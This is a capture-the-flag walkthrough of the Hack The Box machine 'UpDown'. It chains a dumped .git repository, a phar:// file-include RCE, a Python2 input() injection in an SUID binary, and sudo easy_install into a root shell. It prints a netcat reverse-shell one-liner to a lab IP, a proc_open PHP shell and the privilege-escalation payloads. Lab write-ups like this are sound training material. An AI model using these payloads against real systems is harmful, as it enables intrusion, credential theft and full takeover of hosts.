This box is rated medium difficulty on HTB. It involves us getting access to a developer subdomain via an exposed Git repository on the main site. Then, we gain RCE with the PHAR stream wrapper to grab a low level shell on the system. Finally, we can exploit an input field in an ELF to switch users and abuse a known vulnerability in the easy_install binary with Sudo permissions.

## Scanning & Enumeration
As always, I start with an Nmap scan against the provided IP to find all running services on the host. I repeat the same for UDP and find nothing.

```
$ sudo nmap -p22,80 -sCV 10.129.227.227 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-28 14:24 CST
Nmap scan report for 10.129.227.227
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

This is a Linux machine and is web-heavy, so I fire up gobuster to find directories/subdomains in the background before heading to the landing page.



This machine has an interesting function to check if a website is up or down. By supplying a URL, it will return up if it is reachable or down if it can't be reached or doesn't exist. The option to use debug mode will curl the page and output it to a text box at the bottom.

If there aren't proper security measures in place, we can potentially use this to curl an internal server to leak sensitive things or have it reach out to our own server and force a shell to be executed.

Judging by supplying common port numbers and seeing if SSH is reachable, this most likely only uses a tool like curl to print the webpage and not netcat to actually reach out out to it. That means SSRF is most likely not at play here.



Next, I setup a python HTTP server with a test file and supply my IP in the query to see if it will attempt to connect with it. 



I used a XSS payload to see if we're able to inject HTML objects into the page, but it seems like that isn't the case. However, we still do get our test file in return which is great. 

```
$ wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://siteisup.htb -H "Host: FUZZ.siteisup.htb" --filter "w!=93"

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://siteisup.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                      
=====================================================================

000000019:   403        9 L      28 W       281 Ch      "dev"                                        
000009532:   400        10 L     35 W       301 Ch      "#www"                                       
000010581:   400        10 L     35 W       301 Ch      "#mail"                                      

Total time: 0
Processed Requests: 14637
Filtered Requests: 14634
Requests/sec.: 0
```

Around this point, my scans are done and I find a developer subdomain to add to `/etc/hosts`. This returns a 403 Forbidden code so I start another directory scan on this domain and check if we can access it via the query bar on the main page.



That doesn't work either which means I'm back to enumeration. The only hit on an earlier scan showed a /dev directory we didn't have access to. A few more wordlists on that disclosed an exposed .git repository.



I use Git-Dumper to grab all contents from this which makes it a bit easier to find secrets in.

```
git-dumper http://siteisup.htb/dev/ .git/
```

## Developer Subdomain
The `.htaccess` file describes how the server should act when allowing requests onto it. In this case, we must use a custom 'Special-Dev' header set to "only4dev" in order to view it.



I capture a request to the dev.siteisup.htb domain and add the custom header. Now we can take a look around for any potential functions to exploit. I did see an uploads directory when digging through the .git repo which may be of use.

_Note: You can use a browser extension or Burp Suite function to automatically add this to make operating a bit easier._



Intercepting an upload request doesn't seem to work for a shell so I return to the Git repo to find anything else to use. Inside index.php for the developer site shows that the server accepts a 'page' parameter and that we can access an admin panel from it. This is also within the source code as it's literally on the index.

```
$ cat index.php  

<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
 define("DIRECTACCESS",false);
 $page=$_GET['page'];
 if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
  include($_GET['page'] . ".php");
 }else{
  include("checker.php");
 } 
?>
Reading through the checker.php file as well gives us full context over what the page does when an upload occurs on the server. Here's the full thing.
<?php
if(DIRECTACCESS){
 die("Access Denied");
}
?>
<!DOCTYPE html>
<html>

  <head>
    <meta charset='utf-8' />
    <meta http-equiv="X-UA-Compatible" content="chrome=1" />
    <link rel="stylesheet" type="text/css" media="screen" href="stylesheet.css">
    <title>Is my Website up ? (beta version)</title>
  </head>

  <body>

    <div id="header_wrap" class="outer">
        <header class="inner">
          <h1 id="project_title">Welcome,<br> Is My Website UP ?</h1>
          <h2 id="project_tagline">In this version you are able to scan a list of websites !</h2>
        </header>
    </div>

    <div id="main_content_wrap" class="outer">
      <section id="main_content" class="inner">
        <form method="post" enctype="multipart/form-data">
       <label>List of websites to check:</label><br><br>
    <input type="file" name="file" size="50">
    <input name="check" type="submit" value="Check">
  </form>

<?php

function isitup($url){
 $ch=curl_init();
 curl_setopt($ch, CURLOPT_URL, trim($url));
 curl_setopt($ch, CURLOPT_USERAGENT, "siteisup.htb beta");
 curl_setopt($ch, CURLOPT_HEADER, 1);
 curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
 curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
 curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
 curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
 curl_setopt($ch, CURLOPT_TIMEOUT, 30);
 $f = curl_exec($ch);
 $header = curl_getinfo($ch);
 if($f AND $header['http_code'] == 200){
  return array(true,$f);
 }else{
  return false;
 }
    curl_close($ch);
}

if($_POST['check']){
  
 # File size must be less than 10kb.
 if ($_FILES['file']['size'] > 10000) {
        die("File too large!");
    }
 $file = $_FILES['file']['name'];
 
 # Check if extension is allowed.
 $ext = getExtension($file);
 if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
  die("Extension not allowed!");
 }
  
 # Create directory to upload our file.
 $dir = "uploads/".md5(time())."/";
 if(!is_dir($dir)){
        mkdir($dir, 0770, true);
    }
  
  # Upload the file.
 $final_path = $dir.$file;
 move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
 
  # Read the uploaded file.
 $websites = explode("\n",file_get_contents($final_path));
 
 foreach($websites as $site){
  $site=trim($site);file 
  if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
   $check=isitup($site);
   if($check){
    echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
   }else{
    echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
   } 
  }else{
   echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
  }
 }
 
  # Delete the uploaded file.
 @unlink($final_path);
}

function getExtension($file) {
 $extension = strrpos($file,".");
 return ($extension===false) ? "" : substr($file,$extension+1);
}
?>
      </section>
    </div>

    <div id="footer_wrap" class="outer">
      <footer class="inner">
        <p class="copyright">siteisup.htb (beta)</p><br>
        <a class="changelog" href="changelog.txt">changelog.txt</a><br>
      </footer>
    </div>

  </body>
</html>
```

So, it blocks file extensions of php, tar, zip, rar, py, html, etc. We also know that the `file://`, `ftp://`, and `data://` PHP filters are blocked by the site which is why our shells don't execute and only display the text.

However, the `phar://` stream wrapper can be used to read PHP files off of a server and in our case, execute a shell with it. [This article](https://rudrasarkar.medium.com/exploiting-phar-stream-wrapper-d2140592c6e7) goes further in depth on how to exploit it.

## Initial Foothold
Phar is short for PHP archive and this vulnerability is pretty much the same as using the zip stream wrapper to get execution. So, how do we get RCE from this? By supplying a specially crafted URL after the `?page=admin` parameter, we can have the site read files for an LFI vulnerability as well.

I start by making a file named info.php and zipping it with a safe extension:

```
<?php phpinfo(); ?>
```

Now, let's upload it to the site. The purpose of this is to get the site's phpinfo and let us know which functions are allowed and blocked. This file gets uploaded to `/uploads/<MD5SUM>/[FILENAME]` and we can test the `phar://` wrapper to see if this works.

```
http://dev.siteisup.htb/?page=phar://uploads/94f4586fb0cc0576f2506efaeadb410b/cbev.clear/info
```

_Note: The site will add .php to the end so just supply the path from uploads to our zip containing the info.php file + /info ._

Here we get some great things like the version and disabled functions.



We can use a tool like [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) with this URL to find any functions to leverage into opening our shell (or do it manually if you're into code review). 

I find that proc_open isn't blocked on the server, so let's search up a shell that uses that to make things easy. I make use of [this PoC](https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7#file-reverse-shell-php-L70) and change a few lines to spawn in a bash shell as reading and writing from the PHP process might lead to bugs.

```
<?php
$descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f";
        $proc = proc_open($cmd, $descspec, $pipes);
```

Make sure to setup a listener and then navigate to the archive using the phar:// wrapper to proc it.

```
http://dev.siteisup.htb/?page=phar://uploads/793d4183f5fa68f6348bdc32ec2e5245/hacked.jpeg/pwn
```

## Privilege Escalation
Now that we have a shell on the box, I start looking around for ways to escalate privileges. I notice another user by the name of 'developer' so we'll likely have to pivot to their account for more permissions before root user.

Looking inside their home directory is a /dev folder which has a siteisup ELF with an SUID bit set on it. With it is a python script that seems to take a URL as input and checks if it's up or down based on status code.

```
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
 print "Website is up"
else:
 print "Website is down"
```

Running the ELF functions in almost the exact same way. At first I tried to get the script to reach out to my machine as a test run for a shell, but that did not work. Then, I check which python version is on the box and see that it is written for Python2.



That makes this script (and binary) very vulnerable from the input field. We can simply import the OS module and run commands as system in order to grab a shell as Developer. I run the binary and type:

```
__import__('os').system('/bin/bash')
```



Cool, now our UID is set to `1002 (developer)` but our others are not. I upgrade my shell by grabbing his `id_rsa` key under .ssh and use that to login properly over port 22.

Checking their Sudo permissions shows that we are allowed to run the `easy_install` binary as root user. GTFOBins has a good method for spawning a root shell by echoing another python script into a file and executing it with that binary.

```
echo 'import os; os.system("exec /bin/sh </dev/tty >/dev/tty 2>/dev/tty")' >setup.py

sudo /usr/local/bin/easy_install .
```



There we have it, this box was pretty fun as we really had to dig into how the website accepts user input. I hope this was helpful to anyone following along or stuck and happy hacking!
